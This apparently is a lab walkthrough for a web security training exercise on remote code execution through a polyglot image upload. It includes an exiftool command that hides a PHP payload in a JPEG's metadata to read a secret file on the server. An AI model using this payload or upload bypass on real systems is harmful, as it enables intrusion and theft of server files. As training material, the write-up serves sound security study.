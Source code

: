 # Remote code execution via polyglot web shell upload
# Objective
This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
### Upload request example
|![](Images/image-31.png)|
|:--:| 
| *Normal upload request* |
|![](Images/image-32.png)|
| *Path to uploaded file* |

Above file upload request and response reveal information about server:
```
Server: Apache/2.4.41 (Ubuntu)
```

### PHP payload upload test
PHP files are not allowed - `file is not a valid image`.
|![](Images/image-33.png)|
|:--:| 
| *PHP files are not allowed* |

## Exploitation
### Polyglot PHP/JPG creation
Attacker can attempt to hide PHP payload in metadata. Some application check image properties by reading its metadata and they may execute PHP payload that hides in metadata. 

```
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" test_file.jpg  -o polyglot.php
```
|![](Images/image-34.png)|
|:--:| 
| *Creation jpg file with php payload in metadata* |
|![](Images/image-35.png)|
| *Successful PHP payload upload* |

### Retrieving executed data from uploaded payload

|![](Images/image-36.png)|
|:--:| 
| *Retrieving executed command from uploaded image* |
|![](Images/image-37.png)|
| *Retrieving executed command from uploaded image* |

